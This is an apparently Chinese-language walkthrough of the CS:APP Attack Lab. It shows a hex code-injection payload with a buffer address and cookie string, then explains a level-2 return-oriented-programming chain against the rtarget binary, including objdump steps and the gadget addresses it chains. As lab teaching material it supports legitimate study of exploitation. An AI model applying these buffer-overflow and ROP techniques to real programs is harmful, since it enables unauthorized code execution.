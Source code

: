 ```
35 39 62 39 39 37 66 61 00
```

所以，最后的答案为：

```cpp
bf a8 dc 61 55 68 fa 18
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 //buf地址
35 39 62 39 39 37 66 61 //字符串
00 
```

### part II level 2

第二部分的题目无法实现代码注入，但还是有办法。一个最基本的办法是利用ret指令和popq，ret指令会执行栈上对应的函数，popq可以把栈上的值复制到一个寄存器。另外还有一个技巧就是一段二进制的代码，我们如果从某个地方开始看，可以得到一种不同的解释。比如c3可能作为数据的一部分，但如果直接解释的话，就会得到ret指令。

这里我们仍然需要调用touch2函数，这里的基本思路还是执行下面的汇编代码，不过需要改进。

```cpp
0:   bf fa 97 b9 59          mov    $0x59b997fa,%edi
5:   68 ec 17 40 00          pushq  $0x4017ec
a:   c3                      retq   
```

因为我们不能在栈上执行代码，所以我们需要对上面的代码进行改动，使得自使用movq，popq，ret，nop就可以完成。可以改成下面这样。

```cpp
popq %rax //栈上值为0x59b997fa
movl %eax, %edi
ret //栈上值为0x4017ec
```
这里，我们可以先反编译rtarget，得到rtarget.d；然后编译方面的汇编代码，得到c4.d。

```cpp
objdump -d rtarget > rtarget.d
gcc -c c4.s
objdump -d c4.o > c4.d
cat c4.d
	0:   58                      pop    %rax
	1:   89 c7                   mov    %eax,%edi
	3:   c3                      retq    
```
然后我们在rtarget.d里面查找对应的指令，发现一般最多能匹配一条指令，所以后面的指令只能去其他地方查找，并且后面只能跟上ret（前面可以用nop指令）。查找的结果如下：

```cpp
00000000004019a7 <addval_219>: 
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax //4019ab
  4019ad:	c3                   	retq   

00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi) //4019c6
  4019c9:	c3 
```
有了这些，我们可以直接写答案了。
